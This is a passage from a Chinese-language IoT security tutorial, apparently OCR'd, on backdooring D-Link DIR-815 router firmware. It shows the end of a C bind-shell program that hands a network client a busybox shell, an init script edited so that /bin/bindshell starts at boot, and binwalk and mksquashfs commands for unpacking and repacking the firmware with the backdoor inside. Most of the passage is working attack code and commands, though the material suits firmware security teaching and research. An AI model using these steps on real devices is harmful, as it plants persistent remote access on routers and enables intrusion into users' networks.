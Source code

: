 ```c
        server_pid = fork(); 
        if (server_pid) { 
        	write(clientfd, banner,  strlen(banner));
	        for(; i <3 /*u*/; i++) dup2(clientfd, i);
	        execve("/bin/busybox", args, (char *) 0);
	        close(clientfd); 
    	} close(clientfd);
    } return 0;
}
```

交叉编译为对应架构的程序后放入文件系统中，还要改写初始化脚本让系统自启后门：

```bash
#!/bin/sh
for i in /etc/init.d/S??* ;do
        # Ignore dangling symlinks (if any).
        [ ! -f "$i" ] && continue
        # Run the script.
        echo "[$i]"
        $i
done
echo "[$0] done!"
/bin/bindshell &			#<======
/etc/init0.d/rcS
```

在重新打包固件前我们用binwalk重点查看：`compression`压缩算法，`blocksize`块大小 还有文件系统在整个bin中的偏移

```bash
iot@attifyos ~/Desktop> binwalk -Mv ./dir815_FW_101/DIR-815\ FW\ 1.01b14_1.01b14.bin 

Scan Time:     2021-07-25 02:24:21
Target File:   /home/iot/Desktop/dir815_FW_101/DIR-815 FW 1.01b14_1.01b14.bin
MD5 Checksum:  cff3aa9820e35e21a146ce45f2155f42
Signatures:    396

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             DLOB firmware header, boot partition: "dev=/dev/mtdblock/2"
108           0x6C            LZMA compressed data, properties: 0x5D, dictionary size: 33554432 bytes, uncompressed size: 3017436 bytes
983148        0xF006C         PackImg section delimiter tag, little endian size: 14690816 bytes; big endian size: 2809856 bytes
983180        0xF008C         Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 2808054 bytes, 1526 inodes, blocksize: 262144 bytes, created: 2011-05-12 14:14:40
```

用以下

```bash
iot@attifyos ~/Desktop> mksquashfs ./target/ ./temp.fs -comp lzma -b 256k 
Parallel mksquashfs: Using 1 processor
Creating 4.0 filesystem on ./temp.fs, block size 262144.
[=========================================================================================================================================================|] 1260/1260 100%

Exportable Squashfs 4.0 filesystem, lzma compressed, data block size 262144
	compressed data, compressed metadata, compressed fragments, compressed xattrs
	duplicates are removed
Filesystem size 4018.53 Kbytes (3.92 Mbytes)
	26.59% of uncompressed filesystem size (15111.46 Kbytes)
Inode table size 9614 bytes (9.39 Kbytes)
	20.13% of uncompressed inode table size (47752 bytes)
Directory table size 12830 bytes (12.53 Kbytes)
	38.51% of uncompressed directory table size (33316 bytes)
Number of duplicate files found 88
```